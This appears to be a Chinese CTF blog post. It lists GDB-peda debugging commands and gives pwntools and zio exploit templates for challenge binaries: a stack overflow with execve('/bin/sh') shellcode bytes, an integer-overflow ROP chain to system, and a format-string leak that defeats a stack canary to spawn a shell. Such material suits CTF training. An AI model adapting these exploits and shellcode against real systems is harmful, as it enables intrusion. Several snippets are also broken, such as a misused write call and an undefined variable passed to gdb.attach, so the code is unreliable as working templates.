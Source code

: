 ```yaml
---
layout:     post
title:      pwn 题GDB调试技巧和exp模板
subtitle:    pwn 题GDB调试技巧和exp模板
date:       2018-10-05
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> pwn 题GDB调试技巧和exp模板

## 安装

可以通过pip直接安装,也可以从github上下载安装

```
$ pip install peda

$ git clone https://github.com/longld/peda.git ~/peda
$ echo "source ~/peda/peda.py" >> ~/.gdbinit 
```

## 命令

- `aslr` – 显示/设定GDB的ASLR(地址空间配置随机加载)设置 
  ![aslr](https://img-blog.csdn.net/20161113153134612)
- `checksec` – 检查二进制文件的各种安全选项 
  ![checksec](https://img-blog.csdn.net/20161113153310942)
- `dumpargs` – 函数将要被调用时，显示将要被传入函数的所有参数(默认会在反汇编代码下方自动显示)
- `dumprop` – 在给定内存范围中Dump出所有ROP gadgets 
  ![droprop](https://img-blog.csdn.net/20161113153420932)
- `elfheader` – Get headers information from debugged ELF file
- `elfsymbol` – 获取non-debugging symbol信息（plt表） 
  ![elfsymbol](https://img-blog.csdn.net/20161113153337135)
- `lookup` – Search for all addresses/references to addresses which belong to a memory range
- `patch` – Patch memory start at an address with string/hexstring/int
- `pattern` – 生成字符串模板 写入内存 用于定位溢出点
  - `pattern create size` 生成特定长度字符串 
  - `pattern offset value` 定位字符串 
    ![pattern](https://img-blog.csdn.net/20161113153814497)
- `procinfo` – Display various info from /proc/pid/
- `pshow` – Show various PEDA options and other settings
- `pset` – Set various PEDA options and other settings
- `readelf` – 获取elf头信息 
  ![readelf](https://img-blog.csdn.net/20161113153735043)
- `ropgadget` – Get common ROP gadgets of binary or library 
  ![ropgadget](https://img-blog.csdn.net/20161113153600730)
- `ropsearch` – Search for ROP gadgets in memory
- `searchmem|find` – 在内存中查找字符串，支持正则表达式 
  ![find](https://img-blog.csdn.net/20161113154256828)
- `shellcode` – 生成shellcode 
  ![shellcode](https://img-blog.csdn.net/20161113154323286)
- `skeleton` – Generate python exploit code template
- `vmmap` – 可以用来查看栈、bss段是否可以执行 
  ![vmmap](https://img-blog.csdn.net/20161113155152782)
- `xormem` – XOR a memory region with a key 

### 更多详细用法请参考官方帮助文档

![help](https://img-blog.csdn.net/20161113154705665)

 

```
1. checksec 查看elf编译的保护选项。
2. file [file] 加载objfile
3. disas addr 对地址addr处的指令进行反汇编，addr可以是函数名
4. b *addr 在addr处下一个断点 
5. x addr 查看addr处存储的数据值 
6. r 运行被调试的程序 
7. c 继续运行 
8. ni 单步执行不进入
9. si 单步执行并进入 
10. 10.vmmap  得到虚拟映射地址
```





PWN题常用模板

# 单个发送（pwn库）

```python
1 #coding=utf-8   #中文乱码
2 from zio import *
3 Thread = zio(('./pwn'))  #执行同目录下的pwn
4 Thread = write('a'*64+'\x00\x00\x00\x01')  #输入我们的payload
5 Thread = interact()
6 //p32(Address) 把32位地址 写成0x形式  同理64位的也是
```

 

# ZIO库

```python
 1 from zio import *
 2 from pwn import *
 3 Thread = zio(('./pwn'))
 4 #shellcode1='\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
 5 shellcode='\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50'
 6 TargetAddress = 0x000000000040066E
 7 Length = len(shellcode)
 8 payload = shellcode+'\x90'*(72-Length)+p64(TargetAddress)
 9 Thread.write(payload)
10 Thread.interact()
11  
```

# pwn库 有消息接收和判断的

 

```python
 1 from pwn import *
 2 Shellcode='a'*112+'\x5D\x86\x04\x08'
 3 Target=process('./pwn')
 4 Target.sendline(Shellcode)
 5 Target.recvuntil(':$')
 6 #context.terminal = ['gnome-terminal','-x','sh','-c']
 7 #gdb.attach(proc.pidof(Target)[0])
 8 Target.sendline('zhimakaimen')
 9 Target.interactive()

```

 

# 整数溢出型

```python
 1 from pwn import *
 2 
 3 #r = remote('127.0.0.1', 9527)
 4 r = process('./pwn3')
 5 r.recvuntil('name \n')
 6 r.sendline('123')
 7 #raw_input('debug'
 8 ##构造结构可以是:scanf->ret->”%9s”->某地址->system->填充->某地址。
 9 
10 #下面开始构造
11 r.recvuntil('index\n')
12 #-2147483648  -->0x80000000 *4后溢出为0
13 context.terminal = ['gnome-terminal','-x','sh','-c'] 
14 gdb.attach(proc.pidof(p)[0])
15 r.sendline(str(-2147483648 + 14))  #ebp+4的地址处  就是Return函数的地址  现在是一处地址一处值  1
16 r.recvuntil('value\n')
17 r.sendline(str(int('8048470', 16)))  #jmp  scanf
18 r.recvuntil('index\n')
19 r.sendline(str(-2147483648 + 15))   #ebp+8
20 r.recvuntil('value\n')
21 r.sendline(str(int('0x080487de', 16)))  # pop     edi
22 r.recvuntil('index\n')
23 r.sendline(str(-2147483648 + 16))  
24 r.recvuntil('value\n') 
25 r.sendline(str(int('804884b',16)))  #0804884B a9s      db '%9s',0 
26 r.recvuntil('index\n')
27 r.sendline(str(-2147483648 + 17))  
28 r.recvuntil('value\n')
29 r.sendline(str(int('804a030', 16)))  #0804A030 __data_star  804a030 是GOT表的结尾
30 r.recvuntil('index\n')
31 r.sendline(str(-2147483648 + 18))
32 r.recvuntil('value\n')
33 r.sendline(str(int('8048420', 16))) #system  #jmp to system
34 r.recvuntil('index\n') 
35 r.sendline(str(-2147483648 + 19))
36 r.recvuntil('value\n')
37 r.sendline(str(int('804a030', 16)))  #0804A030 __data_start    db    0 
38 r.recvuntil('index\n')
39 r.sendline(str(-2147483648 + 20))
40 r.recvuntil('value\n')
41 r.sendline(str(int('804a030', 16)))  #0804A030 __data_start    db    0 
42 r.recvuntil('index\n')
43 r.sendline(str(-2147483648 + 21))
44 r.recvuntil('value\n')
45 r.sendline(str(int('8048420', 16)))  ##system  #jmp to system
46 r.recvuntil('index\n')
47 r.sendline(str(-2147483648 + 22))
48 r.recvuntil('value\n')
49 r.sendline(str(int('8048420', 16)))  ##system  #jmp to system
50 r.recvuntil('index\n')  #相当与让代码结束 执行ret从而执行到我们的流程
51 r.sendline('-1')
52 r.recvuntil('value\n')
53 r.sendline('10')
54 r.recvuntil('0 0 0 0 0 0 0 0 0 0 ')
55 r.sendline('/bin/sh')
56 r.interactive()
```

 

 

 

## 格式化字符串

```python
 1 from pwn import *
 2 libc=ELF('/lib/i386-linux-gnu/i686/cmov/libc.so.6')
 3 p=process("./pwn2")
 4 context.terminal = ['gnome-terminal','-x','sh','-c'] 
 5 gdb.attach(proc.pidof(p)[0])       
 6 p.recvuntil('name:')
 7 p.sendline('%p.'*40)     #输出字符串 
 8 leak_data=p.recvuntil('messages:')
 9 address=leak_data.split('.')            #将输出的地址分组 然后进行分组
10 canary=int(address[30],16)     #这里为什么是 第30个
11 stack_addr=int(address[33],16)-0x90+0x8+0x8   #这里也不懂
12 put_addr=int(address[22],16)-0x144                  
13 system_addr=put_addr-(libc.symbols['puts']-libc.symbols['system'])
14 
15 payload ='a'*100+p32(canary)+'a'*12+p32(system_addr)+'bbbb'+p32(stack_addr)+'/bin/sh\x00'
16 
17 p.sendline(payload)
18 
19 p.interactive()
```